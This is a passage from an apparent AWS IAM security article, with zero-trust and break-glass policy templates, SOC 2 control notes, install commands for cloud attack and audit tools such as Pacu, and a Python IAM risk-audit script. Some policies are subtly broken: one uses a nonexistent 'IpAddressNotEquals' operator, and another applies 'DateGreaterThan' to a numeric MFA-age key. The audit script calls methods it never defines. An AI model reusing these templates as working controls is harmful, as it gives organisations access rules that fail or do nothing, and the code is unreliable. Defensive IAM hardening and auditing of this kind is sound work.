### Zero Trust IAM Implementation

```python
class ZeroTrustIAM:
    def __init__(self):
        self.iam = boto3.client('iam')

    def implement_zero_trust_policies(self):
        """Implement zero trust IAM policies"""

        # 1. Least privilege policy template
        least_privilege_policy = {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Action": [
                        "s3:GetObject"
                    ],
                    "Resource": "arn:aws:s3:::specific-bucket/specific-prefix/*",
                    "Condition": {
                        "StringEquals": {
                            "aws:RequestedRegion": "us-east-1"
                        },
                        "Bool": {
                            "aws:MultiFactorAuthPresent": "true"
                        },
                        "DateGreaterThan": {
                            "aws:MultiFactorAuthAge": "3600"
                        }
                    }
                }
            ]
        }

        # 2. Conditional access based on risk factors
        conditional_policy = {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Deny",
                    "Action": "*",
                    "Resource": "*",
                    "Condition": {
                        "Bool": {
                            "aws:MultiFactorAuthPresent": "false"
                        }
                    }
                },
                {
                    "Effect": "Deny",
                    "Action": "*",
                    "Resource": "*",
                    "Condition": {
                        "IpAddressNotEquals": {
                            "aws:SourceIp": ["203.0.113.0/24", "198.51.100.0/24"]
                        }
                    }
                }
            ]
        }

        return {
            'least_privilege': least_privilege_policy,
            'conditional_access': conditional_policy
        }

    def create_break_glass_procedure(self):
        """Create emergency break glass access procedure"""
        break_glass_policy = {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Action": "*",
                    "Resource": "*",
                    "Condition": {
                        "Bool": {
                            "aws:MultiFactorAuthPresent": "true"
                        },
                        "StringEquals": {
                            "aws:RequestTag/BreakGlass": "true"
                        }
                    }
                }
            ]
        }

        # Break glass role with limited duration
        break_glass_trust_policy = {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::ACCOUNT:user/emergency-admin"
                    },
                    "Action": "sts:AssumeRole",
                    "Condition": {
                        "Bool": {
                            "aws:MultiFactorAuthPresent": "true"
                        },
                        "NumericLessThan": {
                            "aws:MultiFactorAuthAge": "900"  # 15 minutes
                        }
                    }
                }
            ]
        }

        return {
            'policy': break_glass_policy,
            'trust_policy': break_glass_trust_policy
        }
```

## Regulatory Compliance

### SOC 2 IAM Controls

```python
def implement_soc2_iam_controls():
    """Implement SOC 2 compliant IAM controls"""

    controls = {
        'CC6.1': {
            'description': 'Logical and physical access controls',
            'implementation': [
                'Multi-factor authentication for all users',
                'Regular access reviews and certifications',
                'Separation of duties in IAM administration',
                'Monitoring and logging of all access attempts'
            ]
        },
        'CC6.2': {
            'description': 'Authentication and authorization',
            'implementation': [
                'Strong password policies',
                'Regular credential rotation',
                'Principle of least privilege',
                'Role-based access control (RBAC)'
            ]
        },
        'CC6.3': {
            'description': 'System access management',
            'implementation': [
                'Automated user provisioning and deprovisioning',
                'Regular access rights reviews',
                'Segregation of development and production access',
                'Monitoring of privileged account usage'
            ]
        }
    }

    return controls
```

## Tools and Automation

### AWS IAM Security Tools

```bash
# Essential tools for IAM security testing
pip install -U boto3 pacu cloudsplaining pmapper

# Pacu - AWS exploitation framework
git clone https://github.com/RhinoSecurityLabs/pacu.git
cd pacu && pip install -r requirements.txt

# CloudMapper - AWS environment visualization
git clone https://github.com/duo-labs/cloudmapper.git
cd cloudmapper && pip install -r requirements.txt

# ScoutSuite - multi-cloud security auditing
pip install scoutsuite

# Prowler - AWS security best practices assessment
git clone https://github.com/prowler-cloud/prowler.git
```

### Custom IAM Analysis Tools

```python
#!/usr/bin/env python3
"""
AWS IAM Security Analysis Tool
"""

import boto3
import json
from datetime import datetime, timedelta

class IAMSecurityAnalyzer:
    def __init__(self, profile_name=None):
        self.session = boto3.Session(profile_name=profile_name)
        self.iam = self.session.client('iam')

    def comprehensive_iam_audit(self):
        """Perform comprehensive IAM security audit"""
        audit_results = {
            'overprivileged_entities': self.find_overprivileged_entities(),
            'unused_credentials': self.find_unused_credentials(),
            'weak_policies': self.analyze_policy_weaknesses(),
            'cross_account_risks': self.analyze_cross_account_risks(),
            'compliance_gaps': self.check_compliance_gaps()
        }

        return audit_results

    def find_overprivileged_entities(self):
        """Find users and roles with excessive permissions"""
        overprivileged = []

        # Check users
        users = self.iam.list_users()['Users']
        for user in users:
            permissions = self.analyze_entity_permissions('user', user['UserName'])
            if permissions['risk_score'] > 70:
                overprivileged.append({
                    'type': 'user',
                    'name': user['UserName'],
                    'risk_score': permissions['risk_score'],
                    'issues': permissions['issues']
                })

        # Check roles
        roles = self.iam.list_roles()['Roles']
        for role in roles:
            permissions = self.analyze_entity_permissions('role', role['RoleName'])
            if permissions['risk_score'] > 70:
                overprivileged.append({
                    'type': 'role',
                    'name': role['RoleName'],
                    'risk_score': permissions['risk_score'],
                    'issues': permissions['issues']
                })

        return overprivileged

    def analyze_entity_permissions(self, entity_type, entity_name):
        """Analyze permissions for a specific IAM entity"""
        risk_score = 0
        issues = []

        # Get attached policies
        if entity_type == 'user':
            attached_policies = self.iam.list_attached_user_policies(UserName=entity_name)
            inline_policies = self.iam.list_user_policies(UserName=entity_name)
        else:  # role
            attached_policies = self.iam.list_attached_role_policies(RoleName=entity_name)
            inline_policies = self.iam.list_role_policies(RoleName=entity_name)

        # Analyze each policy
        for policy in attached_policies['AttachedPolicies']:
            policy_risk = self.analyze_policy_risk(policy['PolicyArn'])
            risk_score += policy_risk['score']
            issues.extend(policy_risk['issues'])

        return {
            'risk_score': min(risk_score, 100),
            'issues': issues
        }

    def analyze_policy_risk(self, policy_arn):
        """Analyze individual policy for security risks"""
        risk_score = 0
        issues = []

        try:
            policy = self.iam.get_policy(PolicyArn=policy_arn)
            policy_version = self.iam.get_policy_version(
                PolicyArn=policy_arn,
                VersionId=policy['Policy']['DefaultVersionId']
            )

            policy_doc = policy_version['PolicyVersion']['Document']

            # Check for wildcard permissions
            for statement in policy_doc.get('Statement', []):
                if statement.get('Effect') == 'Allow':
                    actions = statement.get('Action', [])
                    if isinstance(actions, str):
                        actions = [actions]

                    for action in actions:
                        if '*' in action:
                            risk_score += 30
                            issues.append(f"Wildcard permission: {action}")

                    # Check for dangerous actions
                    dangerous_actions = [
                        'iam:*', 'sts:AssumeRole', '*:*',
                        'iam:CreateRole', 'iam:AttachRolePolicy'
                    ]

                    for action in actions:
                        if action in dangerous_actions:
                            risk_score += 25
                            issues.append(f"Dangerous action: {action}")

        except Exception as e:
            issues.append(f"Policy analysis error: {e}")

        return {
            'score': risk_score,
            'issues': issues
        }

    def generate_security_report(self, audit_results):
        """Generate comprehensive security report"""
        report = f"""
# AWS IAM Security Audit Report
Generated: {datetime.now().isoformat()}

## Executive Summary
- Overprivileged entities found: {len(audit_results['overprivileged_entities'])}
- Unused credentials: {len(audit_results['unused_credentials'])}
- Policy weaknesses: {len(audit_results['weak_policies'])}
- Cross-account risks: {len(audit_results['cross_account_risks'])}

## Detailed Findings
"""

        # Add detailed sections for each finding category
        for category, findings in audit_results.items():
            report += f"\n### {category.replace('_', ' ').title()}\n"
            for finding in findings[:5]:  # Show top 5 findings
                report += f"- {finding}\n"

        return report
```

## References and Further Reading

- [AWS IAM Best Practices](https://docs.aws.amazon.com/IAM/latest/UserGuide/best-practices.html)
- [MITRE ATT&CK Cloud Matrix](https://attack.mitre.org/matrices/enterprise/cloud/)
- [AWS Security Incident Response Guide](https://aws.amazon.com/blogs/security/)
- [Supply Chain Security Framework](https://www.nist.gov/itl/executive-order-improving-nations-cybersecurity)
- [Cloud Security Alliance Guidelines](https://cloudsecurityalliance.org/)

## Conclusion

AWS IAM exploitation remains a critical vector for supply chain attacks and privilege escalation. Organizations must implement comprehensive monitoring, apply zero-trust principles, and maintain vigilant oversight of cross-account relationships to defend against sophisticated IAM-based attacks.

The techniques documented here represent real-world attack methods observed in recent supply chain compromises. Defenders should use this information to strengthen their IAM posture and develop effective detection and response capabilities.